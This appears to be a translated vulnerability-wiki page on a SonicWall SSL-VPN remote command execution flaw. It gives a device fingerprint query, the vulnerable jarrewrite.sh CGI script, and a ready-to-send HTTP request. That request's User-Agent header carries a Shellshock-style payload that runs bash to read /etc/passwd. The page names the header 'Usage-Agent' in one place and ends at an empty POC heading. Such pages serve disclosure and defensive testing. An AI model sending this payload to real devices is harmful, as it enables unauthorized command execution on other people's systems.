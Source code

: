 # SonicWall SSL-VPN Remote Command Execution Vulnerability

## Vulnerability Description

SonicWall SSL-VPN remote command execution was exposed on January 24 EXP, and this device has a remote command execution vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SonicWall SSL-VPN</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="SONICWALL-SSL-VPN"</span>

## Vulnerability reappears

The file with the vulnerability is `/cgi-bin/jarrewrite.sh`

```bash
#!/bin/bash

# jarrewrite.sh:
# Script takes a jar/class file and a working directory; modifies class files
# within the jar and repackages them.

USAGE_STR="Usage: $0 <jar/class file> <path-to-working directory>"

# Validate number of args
if [ $# -ne 2 ]; then
echo ${USAGE_STR};
exit -1;
fi

for param in $*; do
    if [ "$param" == "-h" ]; then
        echo ${USAGE_STR};
        exit 1;
    fi
done

# constants
BOUNDARY="-------------------------------------------------------------"
BASE_DIR=/tmp
JAVA_SRC=$1
WDIR=$2
CWD=`pwd`
FULL_JAVA_SRC_PATH=${BASE_DIR}/${WDIR}/${JAVA_SRC}
CLASSES_DIR=classes
META_INF_DIR=${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF
MANIFEST=${META_INF_DIR}/MANIFEST.MF
MANIFEST_DIGEST_FILE=${META_INF_DIR}/SWALL_SIGNATURE.SF
SIGNATURE_FILE=${META_INF_DIR}/SWALL_SIGNATURE.DSA
CODESIGNER_CRT=./../../var/cs_cert/httprpCodeSignerX509Crt.pem
CODESIGNER_PVTKEY=./../../var/cs_cert/httprpCodeSignerPvtkey.pem
DO_SIGN=0

if [ ! -f  ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi

if [ ${JAVA_SRC##*.} == "jar" ]
# Using bracket in variable substitution.
then

# organize
mkdir ${BASE_DIR}/$WDIR/$CLASSES_DIR

# unzip jar
unzip -d ${BASE_DIR}/${WDIR}/${CLASSES_DIR} ${FULL_JAVA_SRC_PATH};

# Simple sanity check to see if the JAR has already been signed. 
# FIXME: This is not a complete check,because the original JAR signature 
# has to be verified completely otherwise a malicious applet
# could access the local resources with SSL VPN signing it.

old_sf_files=`/bin/ls ${META_INF_DIR}/*.[sS][fF] `
old_sign_files=`/bin/ls ${META_INF_DIR}/*.[rRdD][sS][aA] `

for sf_file in $old_sf_files
do
	for sign_file in $old_sign_files
    do
        DO_SIGN=1;
        break
    done;
    break;
done

# remove all manifest info including signatures
# remove all that match mf|MF|sf|SF or dsa|DSA|rsa|RSA
rm -f ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.[sSmM][fF] ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.?[sS][aA]

OUTPUT_JAR="${FULL_JAVA_SRC_PATH}"

classfiles=`/usr/bin/find ${BASE_DIR}/${WDIR}/${CLASSES_DIR} -type f`

#New Manifest file
MANIFEST_MAIN_ATTR="Manifest-Version: 1.0\nCreated-By: 1.0 (SonicWALL Inc.)\n"

echo -e "Creating Manifest file ... " 
echo -e ${MANIFEST_MAIN_ATTR} > ${MANIFEST}

for file in $classfiles
do
	echo $BOUNDARY
	echo $file
	echo $BOUNDARY
	./jdasm $file $file

	#Update manifest file
	SHA1_MANIFEST_ENTRY_CLASS=`openssl dgst -sha1 -binary $file | openssl base64`
	MANIFEST_ENTRY="Name: ${file##${BASE_DIR}/${WDIR}/${CLASSES_DIR}/}\nSHA1-Digest: ${SHA1_MANIFEST_ENTRY_CLASS}\n"
	echo -e ${MANIFEST_ENTRY} >> ${MANIFEST}

	echo $BOUNDARY
done

if [ ${DO_SIGN} == 1 ]; then
echo -e "Creating Manifest Signature file and Signature block" >> $OUTLOG
/usr/sbin/sw_jarsigner -m ${MANIFEST} -s ${MANIFEST_DIGEST_FILE} -S ${SIGNATURE_FILE} -c ${CODESIGNER_CRT} -k ${CODESIGNER_PVTKEY}
fi

rm -f ${FULL_JAVA_SRC_PATH}
cd ${BASE_DIR}/${WDIR}/${CLASSES_DIR};
zip -r ${OUTPUT_JAR} *
cd ${CWD}

# clean
rm -Rf ${BASE_DIR}/${WDIR}/${CLASSES_DIR}

elif [ ${JAVA_SRC##*.} == "class" ]; then
# if file is a class

if [ ! -e  ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi
./jdasm ${FULL_JAVA_SRC_PATH} ${FULL_JAVA_SRC_PATH};
fi 

echo "Recursive Class Rewrite Completed."
exit 0;
```



There is a command injection vulnerability in this file, and the vulnerability is triggered in `Usage-Agent`



Send the following request to execute the command



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/son-1.png)



```shell
GET https://xxx.xxx.xxx.xxx/cgi-bin/jarrewrite.sh
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```



Sending a request will download a file, and the file content is the result of the command execution



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/son-2.png)



## Vulnerability POC